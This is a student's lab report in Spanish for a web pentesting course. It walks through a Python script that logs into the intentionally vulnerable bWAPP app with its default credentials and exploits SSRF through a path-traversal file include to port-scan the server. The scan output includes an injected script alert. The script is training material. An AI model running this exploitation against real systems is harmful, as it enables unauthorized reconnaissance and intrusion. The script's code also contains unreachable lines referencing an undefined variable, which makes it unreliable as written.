


Unidad 3
ACTIVIDAD N°5

**Nombre Alumna:** Fernanda Vergara Chávez
**Nombre Profesor:** Ángel Gangas - Asistente de clases: Violeta Gangas
**Diplomado:** Red Team Avanzado
**Curso:** PENTESTING WEB AVANZADO
**Fecha de entrega:** 08/10/2024

# Introducción

La actividad consiste en automatizar, usando Python, la explotación de una vulnerabilidad conocida como SSRF (Server-Side Request Forgery) en la aplicación vulnerable bwapp. El script se encargará de autenticarse en la aplicación, enviar solicitudes maliciosas para escanear puertos abiertos en un servidor, y mostrar los resultados en pantalla. El objetivo es realizar un análisis automatizado y obtener información de los servicios expuestos en la máquina objetivo.

# Desarrollo

## I.  Ambiente, archivos y configuraciones:

1. Se ha usado la máquina bee para atacar y la máquina Kali como atacante:


## II.  Código python para el ataque:



A continuación, se desglosan las partes del código para explicar su funcionalidad:

1. Importación de módulos: Se importan las librerías requests para manejar solicitudes HTTP y argparse para procesar argumentos de la línea de comandos.

```language
import requests
import argparse
```

2. Función authenticate: Esta función se encarga de autenticar al usuario en bWAPP:

\-Crea la URL de autenticación (login\_url) y define un diccionario payload con las credenciales.
\-Envía una solicitud POST con los datos de inicio de sesión.
\-Verifica si el texto "Welcome" está presente en la respuesta, indicando autenticación exitosa. Si lo está, devuelve True. Si no, devuelve False.

```language
def authenticate(session, base\_url, username, password):
        login\_url = f"{base\_url}/login.php"
        payload = {"login": username, "password": password, "form": "submit"}
        response = session.post(login\_url, data=payload)

        if "Welcome" in response.text:
            print("\[+\] Successfully authenticated.")
            return True
        else:
            print("\[-\] Authentication failed.")
            return False

        if not start\_match:
            return "Start pattern not found in the response."
```

3. Función ssrf\_port\_scan: Esta función realiza la explotación de la vulnerabilidad SSRF:

\-Define la URL que contiene el ataque SSRF (ssrf\_url), aprovechando un archivo malicioso (ssrf-1.txt) para ejecutar el escaneo.
\-Realiza una solicitud GET a esta URL usando la sesión autenticada y muestra el contenido de la respuesta, que podría revelar información sobre los puertos del servidor.

```language
def ssrf\_port\_scan(session, base\_url, target\_ip):
        ssrf\_url = f"{base\_url}/rlfi.php?language=../evil/ssrf-1.txt&ip=127.0.0.1&action=go"
        response = session.get(ssrf\_url)
        print(response.text)
```

4. Función main: Esta función organiza el flujo principal del script:

Utiliza argparse para definir y procesar los argumentos de línea de comandos (target\_ip, username, password, base\_url), que permiten personalizar la ejecución.

Crea una sesión (session) usando requests.Session() para mantener la autenticación.

Llama a la función authenticate para iniciar sesión en bWAPP. Si la autenticación es exitosa, invoca la función ssrf\_port\_scan con la IP objetivo. Si no, muestra un mensaje indicando que la autenticación falló.

```language
def main():
        parser = argparse.ArgumentParser(description="SSRF exploitation on bwapp for port scanning")
        parser.add\_argument("--target\_ip", default="127.0.0.1", help="Target machine IP")
        parser.add\_argument("--username", default="bee", help="bwapp username (default: bee)")
        parser.add\_argument("--password", default="bug", help="bwapp password (default: bug)")
        parser.add\_argument("--base\_url", default="http://192.168.106.129/bWAPP", help="bwapp base URL (default: http://192.168.106.129/bWAPP)")

        args = parser.parse\_args()
        session = requests.Session()

        if authenticate(session, args.base\_url, args.username, args.password):
            ssrf\_port\_scan(session, args.base\_url, args.target\_ip)
        else:
            print("\[-\] Could not authenticate on bwapp.")
```

5. Ejecución del Script: Esta línea se asegura de que la función main() se ejecute solo si el script se ejecuta directamente (no si se importa como un módulo).

Llama a main(), iniciando así todo el proceso de autenticación y escaneo SSRF.

```language
if \_\_name\_\_ == "\_\_main\_\_":
        main()
```

## Resultados y Conclusiones

Parte del output obtenido desde la ejecución del código, refleja que el script obtuvo correctamente el estado de los puertos especificados (FTP, SSH, Telnet, SMTP, etc.) en la bWAPP, mostrando cuáles están accesibles y cuáles no:

<script>alert("U 4r3 0wn3d by MME!!!");</script>Port 21 (ftp): <span style="color:green">OK</span><br/>Port 22 (ssh): <span style="color:green">OK</span><br/>Port 23 (telnet): <span style="color:red">Inaccessible</span><br/>Port 25 (smtp): <span style="color:green">OK</span><br/>Port 53 (domain): <span style="color:red">Inaccessible</span><br/>Port 80 (www): <span style="color:green">OK</span><br/>Port 110 (pop3): <span style="color:red">Inaccessible</span><br/>Port 1433 (ms-sql-s): <span style="color:red">Inaccessible</span><br/>Port 3306 (mysql): <span style="color:green">OK</span><br/>

</div>



# Referencias

* Código de python usado en clases, modificado para propósitos de la actividad y refinado con IA.
* Guia de desarrollo en clases
